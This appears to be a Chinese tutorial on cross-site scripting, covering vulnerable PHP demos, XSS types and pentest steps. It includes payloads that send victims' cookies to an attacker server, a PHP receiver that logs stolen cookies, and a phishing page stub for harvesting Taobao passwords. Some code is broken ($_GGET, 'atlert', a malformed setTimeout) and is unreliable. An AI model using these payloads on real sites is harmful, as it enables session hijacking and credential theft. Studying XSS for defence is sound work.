 # XSS基本原理

## 一、XSS基础演示代码

```php
<?php
// 从浏览器接受一个URL地址参数，名为content
if(isset($_GGET['content'])){
    $content = $_GET['content'];
    echo "你输入的内容：$content";
}
else{
    echo "请输入URL地址参数content";
}
?>
```

- 在地址栏输入：`http://localhost/security/test.php?content=helloworld`可以正常输出：`你输入的内容：helloworld`

- 在地址栏输入`http://localhost/security/test.php?content=<script>alert(1)</script>`时，前端执行JavaScript代码，弹出对话框

  ```
  或者：
  http://localhost/security/test.php?content=<button onclick=alert("你被攻击了")>点我</button>
  以及更复杂一些的：
  http://localhost/security/test.php?content=<script>test() {alert("你被攻击了")}</script><button onclick="test()"点我</button>
  ```

- 构造打开页面就执行的payload：

  ```
  http://localhost/security/test.php?content=<script>var result=0;for (var i=0;i<=100;i++) {result += i;} atlert(result);</script>
  需要注意的是，加号在URL中会被替换为空格，在构造payload时，可以使用%2B代替
  ```

## 二、XSS概述

- XSS指跨站攻击脚本，XSS漏洞发生在前端，攻击的是浏览器的解析引擎，XSS就是让攻击者的JavaScript代码在受害则会的浏览器上执行

- XSS的核心要求是构造出能让前端只想的JavaScript代码，所以要对JavaScript熟练

- XSS也算是注入类的漏洞，JavaScript的代码注入，所以XSS漏洞更主要是攻击系统的用户，而不是系统本身

- XSS是一种钓鱼攻击，攻击目标是不确定的。但是，如果针对Cookie类的攻击，隐含一个目标：网站管理员 

- JavaScript运行条件：

  - 代码位于`<script></script>`标签中

    ```
    <script>alert("你被攻击了")</script>
    ```

  - 代码位于onclick事件中，此类事件带有onerror,onload,onfocus,onblur,onchange,onmouseover,ondoubleclick等

    ```
    <img src="http://xxx.jpg" onmouseover="alert("/你被攻击了/")"
    ```

  - 代码位于超链接的href属性中，或者其他类似属性中

    ```
    <a href="javascript:alert(/你被攻击了/)">点击有奖金</a>
    ```

- XSS攻击流程

  ![202402271305096.png](https://s2.loli.net/2024/02/27/FBX4lT7O2QDUGYd.png)
  
- 基于XSS配置钓鱼网站，自行构造一个与淘宝页面一样的网页，用户一旦输入用户密码，将直接发送账密到攻击者的后台服务器，然后后台将账密保存后，再跳转到真实的淘宝网站，让用户完成后续工作，服务器代码类似于：

  ```
  //获取用户账密
  $username = $_POST['username'];
  $password = $_POST['password'];
  
  // 将数据保存起来，然后跳转到真实网站
  
  echo "<script>document.write('你的账号密码不正确，请重新登录');setTimeout(function()) {location.href='https://www.taobao.com';},2000;)</script>";
  ```

## 三、XSS类型

- 反射型：构造好一个URL|XSS的payload，发给受害者，受害者点解一链接后会在受害者的浏览器上执行恶意代码。反射型XSS一次性的，比较容易被发现。通常恶意链接会被修改成一段短链接，或钓鱼图片的形式。
- 存储型：又叫永久型XSS，常见于留言板。因为存储型XSS的页面会将用户输入的内容存到数据库中，所以当其他人每访问一次的时候服务器都会从数据库将攻击者输入的内容掉渠道前端浏览器解析，因此每一次访问就相当于一次XSS攻击
- DOM型：不与服务器交互，本质还是一种反射型XSS，主要利用js使用DOM对前端html操作时产生的漏洞。DOM型XSS的难点在于它通过阅读JavaScript来确定输出的位置才好构建输入的payload，DOM型XSS可以通过开发者工具观测js变化

## 四、XSS渗透测试步骤

- XSS的原理就是开发者没有对输入内容进行过滤，导致攻击者通过将精心构造的前端代码输入后与原有的前端代码产生混淆，形成新的页面语句，并且新的页面语句可能被浏览器解析并输出
  - 输入：指攻击者对服务器王爷输入恶意代码
  - 输出：指浏览器接收到代码后能够解析并输出到前端
- XSS渗透测试步骤
  - 找到输入点，输入任意字符串，查看输出位置
  - 打开网页源代码，在源代码中查看输出的位置（有可能输入和输出不在同一页面）
  - 查看输出位置的内容跟与输入内容之间的关系，构建闭合和拼接脚本
  - 利用<script>或者onclick或alert(1)进行测试，确认是否存在XSS注入点
  - 开始利用该注入点进行各种复杂操作以实现攻击目的

- 将php代码优化为以下，让用户输入内容在一个文本框中输出：

    ```php
    <?php
    // 从浏览器接受一个URL地址参数，名为content
    if(isset($_GGET['content'])){
        $content = $_GET['content'];
        echo "你输入的内容是：<input type='text' id='content' value='" . $content . "'>";
    }
    else{
        echo "请输入URL地址参数content";
    }
    ?>
    ```
    
    - 此时可以通过拼接引号构造闭合来进行注入：
    
      ```
      http://localhost/security/test.php?value=hello' onclick=alert(1)'
      可以使用注释(#、//、/**/、<!--)将后面的内容截断：
      http://localhost/security/test.php?value=hello' onclick=alert(1) /> <!--
      ```

## 五、XSS获取Cookie

### 1.创建XSSdata数据库

![image-20240227160126122](https://s2.loli.net/2024/02/27/vDr4hbUgduZjQNO.png)

### 2.攻击者服务器代码

```php
// 以下代码同样具有sql注入漏洞，可以利用报错注入的方式进行注入

<?php
    
$ipaddr = $_SERVER['REMOTE_ADDR'];
$url = $_GET['url'];
$cookie = $_GET['cookie'];
    
$conn = new mysqli('127.0.0.1','root','123456','learn') or die("数据库连接不成功");
$conn->set_charset('utf8');
$sql = "insert into xssdata(ipaddr, url, cookie, createtime) values('$ipaddr','$url','$cookie',now())";
$conn->query($sql);

// 执行完上述收集过程后返回上一级：
// echo "<script>history.back();</script>";
// 执行完上述收集过程后跳转到其他网站：
// echo "<script>location.href='http://www.baidu.com/'</script>";

?>
```

### 3.在页面中注入代码

```
以下内容要注意在注入时把+号和&号替换为%2B和%26

使用script标签,将以下代码注入到页面后，每当有用户访问该留言或帖子，攻击者服务器就能收集到cookie信息：
<script>
	new Image().src = "http://攻击者服务器地址/xssrecv.php?url=" + location.href + "&cookie=" + document.cookie;
</script>


如果script被过滤，可以如下注入，但需要用户点击图片攻击者服务器才能收集到cookie信息：
<a href=\'javascript:location.href="http://攻击者服务器地址/xssrecv.php?url="%2Blocation.href%2B"%26cookie="%2Bdocument.cookie\'><img src="http://攻击者服务器地址/image.gif"/>  </a>
```

- 获取cookie后，可以利用该cookie伪装用户登录
- 当管理员访问页面时也会被收集cookie，可以利用管理员身份快速给自己留下后门

## 六、BlueLotusXSS平台

[trysec/BlueLotus_XSSReceiver: XSS平台 CTF工具 Web安全工具 (github.com)](https://github.com/trysec/BlueLotus_XSSReceiver)

使用工具
